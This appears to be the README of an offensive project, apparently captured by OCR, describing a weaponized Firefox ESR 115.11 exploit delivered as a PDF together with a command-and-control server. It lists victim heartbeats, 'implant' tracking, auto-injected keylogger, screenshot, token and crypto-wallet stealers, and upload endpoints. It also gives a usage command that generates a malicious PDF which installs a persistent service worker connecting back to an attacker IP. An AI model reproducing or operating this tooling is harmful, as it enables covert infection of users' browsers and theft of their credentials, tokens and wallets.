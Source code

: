 | Component | Description |
|:---------:|:------------:|
| Heartbeat | Victims send pings every 5 seconds |
| Implant Tracking | Victims are auto-marked "Implanted" after Service Worker deploys |
| Auto Infection | Keylogger, Screenshot, Token/Wallet stealers auto-inject after implant |
| Multi-stage Chain | Service Worker shell → modules stage 2 |
| HTTP Upload Server | `/upload`, `/log`, `/screenshot`, `/tokens`, `/wallet` |

---

## 📜 Important Notes

- Make sure `/sw.js` is reachable via HTTP (port 9002).
- Hardcoded IP (`YOUR-C2-IP`) must be replaced with your real public IP or domain.
- Service Worker shell survives browser tab closes but not full Firefox restarts unless you add background sync (future extension).
- Tested on **Firefox ESR 115.11** (vulnerable).
🚀 Final Usage Example:

python3 pocgen.py 192.168.20.96

✅ Generates a poc.pdf that:

    Exploits Firefox ESR 115.11

    Installs your persistent sw.js

    Auto-starts the WebSocket back to ws://192.168.20.96:9001



---

## 🧠 Credits

- Original Exploit Discovery: Milad Karimi (Ex3ptionaL)
- Rust Porting, Full Weaponization, Native C2, Automation: *suicidalteddy*

---


# ⚡ If you like this project:

Star ⭐ | Fork 🍴 | Share 🚀

---

